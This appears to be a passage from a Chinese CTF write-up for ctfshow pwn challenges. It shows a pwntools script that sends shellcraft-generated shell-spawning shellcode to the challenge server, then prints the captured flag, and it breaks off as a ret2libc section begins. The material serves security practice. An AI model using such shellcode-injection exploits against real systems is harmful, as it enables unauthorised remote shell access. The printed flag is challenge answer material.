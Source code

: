 
查程序

![image-20241030174441041](../_media/image-20241030174441041.png)



然后直接写程序，这里有提示shellcraft模块，因为这里一没有system函数，而没有/bin/sh，三没有scanf，四没有buf，有的只有read



```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28225
context.arch = 'i386'

r = remote(ip,port)

shellcode = asm(shellcraft.sh())  

r.sendline(shellcode) 

r.interactive()
```



注意这里可能缺少asm的编译库，你可以选择安装`binutils` ，你也可以放在linux或者pwnenv里面运行就可以了，或者你可以直接把这个asm记下来，反正都不会变

登上去直接就拿到flag了

```
ctfshow{6a50c6fd-c7c0-4db1-ac1b-1e1037e4de98}
```







## ==25. pwn25（ret2libc）==

题目描述：

开启NX保护，或许可以试试ret2libc



什么叫做nx保护呢？
